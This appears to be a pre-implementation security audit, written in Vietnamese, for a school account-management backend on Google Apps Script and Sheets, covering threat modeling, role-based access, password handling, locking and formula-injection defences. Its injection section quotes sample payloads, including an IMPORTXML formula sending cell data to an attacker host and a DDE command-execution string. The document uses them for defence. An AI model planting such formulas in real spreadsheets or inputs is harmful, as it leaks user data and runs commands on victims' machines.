

# ACCOUNT MANAGEMENT SECURITY REVIEW & ARCHITECTURE AUDIT
## Threat Modeling, Access Control, and Security Verification for Web-Based Account Administration

- **Document Version:** `1.0`
- **Security Audit Status:** `DESIGN_REVIEW / PRE-IMPLEMENTATION`
- **Scope:** Account Management Backend (Task ID: `AUTH-A1`)
- **Repository:** `huynhdien997spt/tinhocthaydien`
- **Working Branch:** `account-management-json-review`
- **Baseline Commit:** `ecc56e274739078b431cf8fe294040a9cb6bacf5`

---

## 1. Mục tiêu Đánh giá An toàn Thông tin

Tài liệu này đánh giá toàn diện các rủi ro bảo mật, mô hình hóa mối đe dọa (Threat Modeling theo chuẩn STRIDE), và xác lập các cơ chế kiểm soát phòng vệ cho hệ thống quản lý tài khoản JSON v1.0. 

Mục tiêu cốt lõi:
1. Đảm bảo tài khoản học sinh, giáo viên và quản trị viên được tạo lập và quản trị an toàn trên hạ tầng Google Apps Script / Google Sheets.
2. Ngăn ngừa triệt để các lỗ hổng leo thang đặc quyền (Privilege Escalation), truy cập trái phép ngoài phạm vi phân công (Cross-Class Unauthorized Access), và rò rỉ dữ liệu xác thực (Credential Leakage).
3. Đảm bảo tính toàn vẹn của dữ liệu học tập liên kết với `StudentUID` không bị xáo trộn hoặc ghi đè khi nhập liệu.

---

## 2. Mô hình Hóa Mối đe dọa (STRIDE Threat Modeling)

| Mã đe dọa | Danh mục STRIDE | Kịch bản tấn công tiềm ẩn | Biện pháp Phòng vệ trong Thiết kế AUTH-A1 |
|---|---|---|---|
| **T-01** | **Spoofing (Giả mạo)** | Kẻ tấn công gửi yêu cầu tạo/reset tài khoản với `token` giả hoặc tự định danh UID | Yêu cầu kiểm tra token qua `requireSession_()` tại backend; băm HMAC-SHA256 với secret `TOKEN_PEPPER` lưu trong Script Properties; toàn bộ UID do máy chủ tự sinh bằng UUID v4. |
| **T-02** | **Tampering (Can thiệp dữ liệu)** | Học sinh hoặc kẻ tấn công chèn công thức Google Sheets vào trường `fullName` hoặc `accountId` (`=IMPORTXML(...)`, `=IMAGE(...)`) | Thực thi bộ lọc Formula Injection: từ chối hoặc chuẩn hóa mọi trường dữ liệu bắt đầu bằng các ký tự công thức (`=`, `+`, `-`, `@`, `\t`, `\r`). Toàn bộ ô lưu trữ trong sheet được định dạng văn bản thô `@` (`setNumberFormat("@")`). |
| **T-03** | **Repudiation (Chối bỏ trách nhiệm)** | Người dùng chối bỏ việc thực hiện batch import hoặc reset mật khẩu | Ghi nhật ký có cấu trúc vào bảng `EVENT_LOG` (ghi nhận `timestamp`, `actorUid`, `actorRole`, `action`, `targetUid`, `status`), không ghi lại mật khẩu thô. |
| **T-04** | **Information Disclosure (Lộ lọt thông tin)** | Lộ mật khẩu tạm thời, chuỗi muối hoặc hash băm mật khẩu qua API `listManagedAccounts` hoặc qua file log | Mật khẩu tạm chỉ xuất hiện **duy nhất một lần** trong phản hồi HTTPS của `createAccount`, `importAccountsBatch` hoặc `resetAccountPassword`. Không lưu trữ mật khẩu rõ trên Google Sheets hay trả về trong các API truy vấn. Không in mật khẩu ra Logger. |
| **T-05** | **Denial of Service (Từ chối dịch vụ)** | Tấn công gửi tệp JSON chứa hàng nghìn tài khoản làm cạn kiệt hạn mức thực thi 6 phút của Apps Script hoặc khóa ScriptLock quá lâu | Giới hạn kích thước lô: tối đa **100 tài khoản / batch**. Áp dụng tiền thẩm định Fail-Fast trong RAM trước khi chạm vào Sheet. Thiết lập thời gian chờ khóa đồng thời `LockService.waitLock(15000)` an toàn. |
| **T-06** | **Elevation of Privilege (Leo thang đặc quyền)** | Giáo viên gửi payload JSON chứa tài khoản có `role = "admin"` hoặc `role = "teacher"` để tự cấp quyền quản trị | Backend kiểm tra vai trò người gọi: Giáo viên **chỉ được phép tạo tài khoản có `role = "student"`**. Nếu payload chứa vai trò khác, hệ thống lập tức từ chối với lỗi `FORBIDDEN`. |

---

## 3. Ma trận Phân quyền theo Vai trò (Role-Based Access Control - RBAC)

Hệ thống xác định 3 vai trò người dùng cốt lõi, được kiểm tra tại máy chủ qua hàm `requireRole_`:



### 3.1. Bảng Chi tiết Quyền hạn Quản trị Tài khoản

| Hành động API | Vai trò `student` | Vai trò `teacher` | Vai trò `admin` |
|---|---|---|---|
| `validateAccountImport` | ❌ Bị cấm (`FORBIDDEN`) | ✅ Cho phép (Chỉ thẩm định học sinh thuộc lớp được phân công) | ✅ Cho phép (Toàn hệ thống) |
| `createAccount` (Student) | ❌ Bị cấm | ✅ Cho phép (Chỉ trong lớp được phân công) | ✅ Cho phép |
| `createAccount` (Teacher) | ❌ Bị cấm | ❌ Bị cấm (`FORBIDDEN`) | ✅ Cho phép |
| `createAccount` (Admin) | ❌ Bị cấm | ❌ Bị cấm (`FORBIDDEN`) | ✅ Cho phép |
| `importAccountsBatch` | ❌ Bị cấm | ✅ Cho phép (Toàn bộ học sinh trong lô phải thuộc lớp phân công) | ✅ Cho phép |
| `resetAccountPassword` (Student) | ❌ Bị cấm | ✅ Cho phép (Chỉ học sinh thuộc lớp phân công; không được reset chính mình) | ✅ Cho phép |
| `resetAccountPassword` (Teacher) | ❌ Bị cấm | ❌ Bị cấm (`FORBIDDEN`) | ✅ Cho phép |
| `resetAccountPassword` (Admin) | ❌ Bị cấm | ❌ Bị cấm (`FORBIDDEN`) | ✅ Cho phép (Chống tự reset chính mình qua API này) |
| `listManagedAccounts` | ❌ Bị cấm | ✅ Cho phép (Chỉ xem danh sách học sinh thuộc lớp phân công) | ✅ Cho phép (Xem toàn bộ hoặc lọc theo lớp) |

---

## 4. Vòng đời Mật khẩu Tạm thời (Temporary Password Lifecycle)

Quy trình quản lý mật khẩu tạm thời tuân thủ các nguyên tắc an ninh thông tin nghiêm ngặt:

```text
[Khởi tạo / Reset] ──► [Sinh ngẫu nhiên 8 ký tự an toàn] ──► [Tạo Salt 16 byte ngẫu nhiên]
                                                                        │
                                                                        ▼
                                                       [Băm PBKDF2-HMAC-SHA256 (1000 vòng)]
                                                                        │
                                                                        ▼
[Client Web UI (Một lần duy nhất)] ◄── [Trả về qua HTTPS] ◄── [Ghi Hash & Salt vào USERS]
              │                                                         │
              ▼                                                         ▼
[Người dùng sao chép / in phát]                         [Thu hồi toàn bộ Sessions cũ]
              │                                                         │
              ▼                                                         ▼
[Đăng nhập lần đầu] ──► [MustChangePassword=TRUE] ──► [Bắt buộc đổi mật khẩu mới để tiếp tục]
```

### 4.1. Không gian Entropy của Bộ sinh Mật khẩu
- Mật khẩu tạm thời được sinh bởi hàm `generatePassword_()`:
  - Tập ký tự gồm 54 ký tự: `ABCDEFGHJKMNPQRSTUVWXYZabcdefghjkmnpqrstuvwxyz23456789` (đã loại bỏ các ký tự dễ gây nhầm lẫn: `0, O, 1, l, I`).
  - Độ dài mật khẩu: 8 ký tự.
  - Tổng số tổ hợp khả dĩ: $54^8 \approx 7.23 \times 10^{13}$ tổ hợp.
  - Nguồn sinh ngẫu nhiên: `randomBytes_(32)` dựa trên `Utilities.getUuid()` và SHA-256 nội bộ của Google Cloud Platform, đảm bảo phân phối ngẫu nhiên đồng đều và chống dự đoán.

### 4.2. Chính sách Không lưu trữ Mật khẩu Rõ (No Cleartext Persistence Policy)
1. **Trong cơ sở dữ liệu chính (`USERS`):** Tuyệt đối không có cột lưu mật khẩu rõ. Chỉ lưu trữ chuỗi `PasswordHash` và `PasswordSalt`.
2. **Trong tệp nhật ký (Logs):** Hàm `fail_()` và các khối xử lý lỗi chỉ ghi lại tên mã lỗi (`error.code`), tuyệt đối không ghi lại nội dung `request.postData` hay mật khẩu.
3. **Phía Client:** Ứng dụng web chỉ hiển thị mật khẩu tạm một lần trong cửa sổ thông báo/bảng kết quả nhập; không lưu vào `localStorage`, `sessionStorage` hay cookies.
4. **Đối chiếu với quy trình `NEW_ACCOUNTS` cũ:**
   - Luồng nhập truyền thống qua Apps Script GUI (`importUsers()`) ghi mật khẩu thô vào sheet `NEW_ACCOUNTS` để giáo viên in danh sách, yêu cầu giáo viên phải bấm xóa bằng `clearNewAccounts()`.
   - Luồng JSON API mới nâng cấp mức độ bảo mật: trả mật khẩu trực tiếp về giao diện web của giáo viên qua đường truyền HTTPS có bảo vệ phiên, **không ghi dữ liệu rõ xuống Google Drive**. Điều này ngăn ngừa nguy cơ tài liệu trên Google Drive bị chia sẻ nhầm dẫn tới lộ lọt mật khẩu diện rộng.

---

## 5. Cơ chế Đồng thời và Bảo vệ Dữ liệu trong Google Sheets (Concurrency & Locking)

Google Sheets không phải là cơ sở dữ liệu quan hệ (RDBMS) và không có cơ chế giao dịch ACID đa bảng tiêu chuẩn. Để đảm bảo an toàn dữ liệu, hệ thống áp dụng các kiểm soát sau:

### 5.1. Khóa phân tán ScriptLock
- Mọi thao tác ghi (`createAccount`, `importAccountsBatch`, `resetAccountPassword`) đều phải chạy trong khối bao bọc bởi `withLock_`:
  ```javascript
  function withLock_(fn) {
    const lock = LockService.getScriptLock();
    try { 
      lock.waitLock(15000); // Chờ tối đa 15 giây
    } catch (e) { 
      throw E_("BUSY"); // Trả về mã BUSY nếu có phiên khác đang ghi
    }
    try { 
      return fn(); 
    } finally { 
      lock.releaseLock(); 
    }
  }
  ```
- Biện pháp này ngăn chặn hiện tượng Race Condition khi hai giáo viên cùng nhập tài khoản hoặc cùng reset mật khẩu vào cùng một thời điểm.

### 5.2. Tính Bán nguyên tử (Semi-Atomicity) và Xử lý Lỗi Gián đoạn
- **Vấn đề kỹ thuật:** Nếu một tác vụ ghi nhiều dòng bị gián đoạn giữa chừng (ví dụ: Google Apps Script bị timeout đột ngột hoặc mất kết nối dịch vụ), các dòng đã ghi sẽ tồn tại trong sheet mà không tự động rollback.
- **Giải pháp thiết kế:**
  1. **Toàn bộ phép thẩm định (Validation) chạy trước:** Kiểm tra 100% dữ liệu trước khi mở khóa ghi.
  2. **Ghi theo khối (Bulk Range Write):** Thay vì gọi `appendRow` $N$ lần (mỗi lần mất ~200ms và dễ đứt quãng), hệ thống tính toán toàn bộ hash/salt trong RAM và ghi 1 lần duy nhất bằng `sheet.getRange(nextRow, 1, N, 18).setValues(bulkRows)`. Thao tác này có tính nguyên tử cao trong Google Sheets.
  3. **Khả năng phục hồi (Idempotent Recovery):** Nếu lô nhập bị lỗi mạng giữa chừng và client gửi lại yêu cầu với cùng `batchId`, hệ thống quét lại danh sách tài khoản: các tài khoản đã được ghi nhận trước đó sẽ được đánh dấu `status = "skipped_existing"`, không sinh lại UID và không ghi đè dữ liệu cũ.

---

## 6. Phòng thủ Tấn công Chèn Công thức (Formula Injection / CSV Injection)

### 6.1. Nguy cơ
Khi dữ liệu tài khoản (`fullName`, `accountId`, `classId`) được ghi vào Google Sheets, nếu học sinh hoặc kẻ xấu đặt tên bắt đầu bằng các ký tự công thức:
- `=SUM(A1:B10)`
- `=IMPORTXML("http://attacker.com/steal?data=" & CONCATENATE(A1:Z1), "//a")`
- `@HYPERLINK("http://malicious-site.com", "Click here")`
- `-2+3+cmd|' /C calc'!A0`

Khi giáo viên mở Google Sheets trên trình duyệt hoặc máy tính, công thức sẽ tự động thực thi, có thể rò rỉ dữ liệu hoặc thực thi mã độc.

### 6.2. Bộ lọc Phòng vệ trong AUTH-A1
Hệ thống áp dụng 2 tầng phòng ngự bắt buộc:
1. **Tầng thẩm định (Validation Filter):**
   - Kiểm tra chuỗi ký tự đầu tiên của tất cả các trường dạng văn bản (`accountId`, `fullName`, `classId`).
   - Nếu bắt đầu bằng bất kỳ ký tự nào trong tập `['=', '+', '-', '@', '\t', '\r']`, hệ thống lập tức từ chối bản ghi với mã lỗi `FORMULA_INJECTION_DETECTED`.
2. **Tầng định dạng lưu trữ (Storage Level Protection):**
   - Trong hàm `ensureSheet_()`, toàn bộ các cột của bảng `USERS` đều được áp dụng định dạng chuỗi thô:
     `sh.getRange(1, 1, sh.getMaxRows(), headers.length).setNumberFormat("@");`
   - Ký tự `@` thông báo cho Google Sheets xử lý mọi dữ liệu nhập vào dưới dạng chuỗi ký tự thuần túy, không kích hoạt phân tích cú pháp công thức.

---

## 7. Chính sách Chống Tự khóa và Bảo vệ Tài khoản Quản trị (Anti-Lockout Policy)

Để bảo đảm tính khả dụng liên tục của hệ thống:
1. **Không cho phép tự khóa/tự reset:** Tài khoản Admin đang đăng nhập không thể sử dụng các API quản lý này để tự khóa (`teacherLockUser`) hoặc tự reset mật khẩu của chính mình (phải sử dụng quy trình `changePassword` thông thường).
2. **Quy tắc Admin tối thiểu:** Khi một admin thực hiện thao tác khóa tài khoản admin khác, hệ thống phải kiểm tra trong bảng `USERS` còn ít nhất một tài khoản admin khác đang ở trạng thái `Active = "TRUE"`. Nếu đó là admin hoạt động duy nhất, hệ thống từ chối thao tác với mã lỗi `CANNOT_DISABLE_LAST_ADMIN`.
